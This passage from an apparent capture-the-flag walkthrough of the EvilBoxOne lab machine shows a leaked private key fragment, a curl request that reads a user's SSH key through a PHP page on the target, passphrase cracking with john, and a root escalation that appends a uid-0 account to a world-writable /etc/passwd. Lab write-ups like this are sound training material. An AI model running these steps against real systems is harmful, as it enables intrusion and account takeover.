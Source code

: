 ```
hrkWRpPIwpzKdtMPwQbkPu4ykqgKkYYRmVlfX8oeis3C1hCjqvp3Lth0QDI+7Shr
Fb5w0n0qfDT4o03U1Pun2iqdI4M+iDZUF4S0BD3xA/zp+d98NnGlRqMmJK+StmqR
IIk3DRRkvMxxCm12g2DotRUgT2+mgaZ3nq55eqzXRh0U1P5QfhO+V8WzbVzhP6+R
MtqgW1L0iAgB4CnTIud6DpXQtR9l//9alrXa+4nWcDW2GoKjljxOKNK8jXs58SnS
62LrvcNZVokZjql8Xi7xL0XbEk0gtpItLtX7xAHLFTVZt4UH6csOcwq5vvJAGh69
Q/ikz5XmyQ+wDwQEQDzNeOj9zBh1+1zrdmt0m7hI5WnIJakEM2vqCqluN5CEs4u8
p1ia+meL0JVlLobfnUgxi3Qzm9SF2pifQdePVU4GXGhIOBUf34bts0iEIDf+qx2C
pwxoAe1tMmInlZfR2sKVlIeHIBfHq/hPf2PHvU0cpz7MzfY36x9ufZc5MH2JDT8X
KREAJ3S0pMplP/ZcXjRLOlESQXeUQ2yvb61m+zphg0QjWH131gnaBIhVIj1nLnTa
i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
-----END RSA PRIVATE KEY-----
```
Success! We were able to find a private key! However, it is protected with a passphrase. We can save the private key and try to use `john` to crack the passphrase.
```
❯ curl http://192.168.0.243/secret/evil.php?command=/home/mowree/.ssh/id_rsa > id_rsa
❯ chmod 600 id_rsa 
❯ /usr/share/john/ssh2john.py id_rsa > hash
```
Now we can use `john` to try to crack the hash.
```
❯ john hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
...
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
unicorn          (id_rsa)
```
Now that we have the passphrase, `unicorn`, we can use the private key to try to log in using `ssh`
```
❯ ssh -i id_rsa mowree@192.168.0.243
The authenticity of host '192.168.0.243 (192.168.0.243)' can't be established.
ECDSA key fingerprint is SHA256:cd9WCNmPY0i3zsZaPEV0qa7yp5hz8+TVNalFULd5CwM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.243' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
mowree@EvilBoxOne:~$
```
And now we have access to `user.txt`.
```
mowree@EvilBoxOne:~$ wc user.txt 
 1  1 31 user.txt
```

## Root flag

Now that we have user access on the host, we can begin enumerating a path to `root` user. After some quick checks, we find that the permissions on `/etc/passwd` are misconfigured, allowing anyone to write to the file.
```
mowree@EvilBoxOne:~$ ls -la /etc/passwd
-rw-rw-rw- 1 root root 1398 ago 16 13:20 /etc/passwd
```
This makes escalating to `root` almost trivial. We can just append a new user to the end of `/etc/passwd` that will have the same `uid` and `gid` as `root`.
```
mowree@EvilBoxOne:~$ echo hacker:$(openssl passwd -6 password):0:0:hacker:/root:/bin/bash >> /etc/passwd
```
And now we can `su` to our newly created user, `hacker`, with the password `password`.
```
mowree@EvilBoxOne:~$ su hacker
```